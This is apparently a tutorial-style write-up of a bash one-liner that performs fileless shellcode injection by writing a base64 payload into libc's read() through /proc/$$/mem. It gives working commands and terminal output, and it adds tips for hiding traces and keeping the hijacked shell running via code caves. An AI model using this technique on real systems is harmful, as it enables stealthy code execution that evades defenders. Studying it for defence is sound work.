


### Bash shellcode injection oneliner

I saw this trick from David Buchanan twitter (https://twitter.com/David3141593)




so that's it:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
```

that's an interesting trick to inject a shellcode (encoded in base64 directly into the bash parent process memory)

It's an interesting trick because, you can inject a shellcode in another process, without creating another process, and without touching the disk of course, fileless.. that's not really new, but a clever trick

let's analyze it to see how it works (and after, improve it a bit...)

* #### first

  `cd /proc/$$;`

  well that actually goes in the /proc directory of the parent process, the `$$` symbol is bash symbol for parent process.

  The parent process is `bash` probably , or any shell you use. 

* #### second

  `read a<syscall`

  well, that's one read the `/proc/$$/syscall` entry into the variable `a`

  but what is `/proc/pid/syscall` ? (humm good question..)



On Ubuntu default security settings, you can not read another process `/proc/pid/syscall` entry, but as `read` is an internal bash command, it will work as it is bash reading his own `/proc/pid/syscall` entry

let's try it:

```bash
$ echo $$
1935387
$ read a</proc/$$/syscall
$ echo $a
0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992
$ cat /proc/1935387/maps
55917cfd6000-55917d005000 r--p 00000000 00:1b 1526224                    /usr/bin/bash
55917d005000-55917d0e4000 r-xp 0002f000 00:1b 1526224                    /usr/bin/bash
55917d0e4000-55917d11e000 r--p 0010e000 00:1b 1526224                    /usr/bin/bash
55917d11f000-55917d123000 r--p 00148000 00:1b 1526224                    /usr/bin/bash
55917d123000-55917d12c000 rw-p 0014c000 00:1b 1526224                    /usr/bin/bash
55917d12c000-55917d137000 rw-p 00000000 00:00 0 
55917dc8d000-55917de9e000 rw-p 00000000 00:00 0                          [heap]
7f8061f97000-7f8062aaf000 r--p 00000000 00:1b 2356892                    /usr/lib/locale/locale-archive
7f8062aaf000-7f8062ab2000 rw-p 00000000 00:00 0 
7f8062ab2000-7f8062ada000 r--p 00000000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ada000-7f8062c6f000 r-xp 00028000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062c6f000-7f8062cc7000 r--p 001bd000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062cc7000-7f8062ccb000 r--p 00214000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccb000-7f8062ccd000 rw-p 00218000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccd000-7f8062cda000 rw-p 00000000 00:00 0 
7f8062cda000-7f8062ce8000 r--p 00000000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062ce8000-7f8062cf9000 r-xp 0000e000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062cf9000-7f8062d07000 r--p 0001f000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d07000-7f8062d0b000 r--p 0002c000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d0b000-7f8062d0c000 rw-p 00030000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d3a000-7f8062d41000 r--s 00000000 00:1b 547276                     /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f8062d41000-7f8062d43000 rw-p 00000000 00:00 0 
7f8062d43000-7f8062d45000 r--p 00000000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d45000-7f8062d6f000 r-xp 00002000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d6f000-7f8062d7a000 r--p 0002c000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7b000-7f8062d7d000 r--p 00037000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7d000-7f8062d7f000 rw-p 00039000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fffcc912000-7fffcc934000 rw-p 00000000 00:00 0                          [stack]
7fffcc9f8000-7fffcc9fc000 r--p 00000000 00:00 0                          [vvar]
7fffcc9fc000-7fffcc9fe000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]

```

as you can see in the example above,

`/proc/pid/syscall` contains that string:

`0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992`

if we read manual above, it means last syscall was number 0 , it is `read()` syscall, with args:

* 0 --> filedescriptor (`rdi` register)
* 0x55917d134260  -->  address (`rsi` register)

* 0x1000 --> length  (`rdx` register)

then they are the 3 others arguments , that are not used by `read()` which take only 3 arguments,

then:

* 0x7fffcc931228 --> stack value
* 0x7f8062bc6992 --> address of the syscall


**Well what all this means?**

well it's probably the `read` syscall , of libc `read()` function, as we can see in the `/proc/pid/maps` output , that 0x7f8062bc6992 is mapped in libc at offset 0x114992 from libc's start. If we check in GDB we can confirm that it is the syscall from `__GI___libc_read+16` libc internal function:


`__GI___libc_read+18` is the address next to the sycall , that is return in `/proc/pid/syscall`, by read `read a<syscall`


* #### third

`exec 3>mem`

that is an internal command from bash too, let's see his manual:

this command open `/proc/$$/mem` for writing on filedescriptor 3.

so everything written to filedescriptor 3, will be written directly in bash process memory


*`exec` can be used in many other ways too, to change argv0 for example, but we will just concentrate on his usage on filedescriptors*


* #### fourth

```base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3```


ok , now that the filedescriptor 3 points to bash process memory, we can write into the process memory, we just need to seek into `/proc/$$/mem` to reach a known address, we will use the syscall address returned by `/proc/$$/syscall` that we stored before in `a` variable, to write directly into libc `__GI___libc_read()` function.. (yes, with `/proc/$$/mem` you can even write in non writable zone..like in libc exec zone)

we encode our shellcode in base64, and write it at this position, like this as soon as bash, will call `read()` libc function (which is quite often), it will execute our shellcode... but `read()` function will be pretty well destroyed for bash next calls to it.. 

our shellcode take over anyway..

* #### improvements

well that works, but even if you inject your shellcode directly in a process memory (bash in this case), even fileless, it leaves some supect traces... let's give it a try..

my example above inject a "hello world" shellcode, and goes in an endless loop, let's look at filedescriptors of the bash process after injection:


well you see, that filedescriptor 3 is left open, and that's suspicious.

so first improvement is closing the fd just after writing:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3;exec 3>&-
```

by adding `exec 3>&-` we closed the filedescriptor after using it..


now there is the problem that bash is left unusable, as the shellcode basically "hijacked" the code execution...

as the `read a<syscall` give a pretty consistent return to a know offset in libc, what we can do is for example is patching at another place in libc.

for example, if you look at the `__GI___libc_read()` function disassembly above, you can see that at `__GI___libc_read+106` there is a `ret` followed by some `nop`instruction padding, for alignement process..

this ret is at offset +88, after the address return by `read a<syscall`, we can write to it like this for example:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`+88]>&3;exec 3>&-
```

so to ameliorate the method,

we could first write our shellcode to an unused place in libc in the executable zone (there are many code caves as they are called in libc) 

then do a second write to patch for example the `ret` and replace it with a `jmp` that will jump to our shellcode at the end of the function, and will return normally after..

like this bash will continue to function normally, and our shellcode will be called each time a `read()` is called by bash (which is pretty often off course...)

this is left as an exercise for the most motivated ;)

* #### Conclusion

It's a nice process injection method, totally invisible if done correctly..and you can do it only with a bash oneliner

